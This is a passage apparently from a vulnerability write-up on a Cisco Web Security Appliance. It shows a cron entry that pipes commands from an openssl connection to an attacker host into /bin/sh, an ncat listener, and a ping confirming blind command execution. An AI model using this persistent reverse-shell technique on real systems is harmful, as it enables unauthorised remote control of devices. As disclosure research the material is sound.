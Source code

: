 ```
set backup3 "\n\n\n*/1 * * * * openssl s_client -quiet -connect <ATTACKER_IP>:443 | /bin/sh\n\n"
```
The "` | /bin/sh`" part would send every command received through the OpenSSL client to a shell interpreter. A listener was set up and once it received a connection, a "ping" command was executed:
```bash
$ sudo ncat -lnvp 443 --ssl-cert cert.pem --ssl-key key.pem
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from <CISCO_WSA_IP>:12313.
ping -c 1 <ATTACKER_IP>
```

Due to the nature of the "blind" shell, the output wasn’t visible, but a ICMP ping packet was received:
```
12:45:13.471829 IP <CISCO_WSA_IP> > <ATTACKER_IP>: ICMP echo request, id 11852, seq 0, length 64
12:45:13.471892 IP <ATTACKER_IP> > <CISCO_WSA_IP>: ICMP echo reply, id 11852, seq 0, length 64
```
The ICMP packet confirmed arbitrary command execution.

